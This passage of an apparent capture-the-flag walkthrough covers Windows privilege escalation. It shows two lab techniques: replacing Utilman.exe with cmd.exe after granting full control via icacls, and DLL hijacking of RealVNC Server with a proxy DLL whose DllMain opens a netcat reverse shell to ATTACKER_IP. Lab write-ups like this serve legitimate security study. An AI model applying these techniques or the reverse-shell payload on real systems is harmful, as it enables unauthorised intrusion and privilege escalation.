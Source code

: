 Now like the other tasks give it full permissions.

```shell
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

Now we will simply rename the cmd.exe executable to utilman.exe and lock the screen.(Follow the instructions on the task)

```shell
copy cmd.exe utilman.exe
```

Now hit the "Ease of Access" button and bam shell.
The flag is in the admins desktop


---
## task 7
---
#### DLL high-jacking

This one was giving me a bit of an issue when it came to crafting the payload, but don't worry you'll see the syntax needed.

So start again by reading the task (the info is always helpful to understand).

It started getting a bit hard for me to understand ( English not being my first language) but the simple rundown is this.

Go to the location of the VNC Server application.

```shell
C:\Programfiles\RealVNC\VNC Server\
```

Copy the contents to this folder. no need to rename anything.

```shell
C:\Users\thm-unpriv\AppData\Local\Temp\
```

Now on your attack box in the share directory create a proxy.c file and a get_exports.py file.

```bash
touch proxy.c
```

```bash
touch get_exports.py
```

In the **proxy.c** file paste this

```c
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
             system('C:\\tools\\nc64.exe -e cmd.exe ATTACKER_IP 6666');
    }

    return TRUE;
}
```
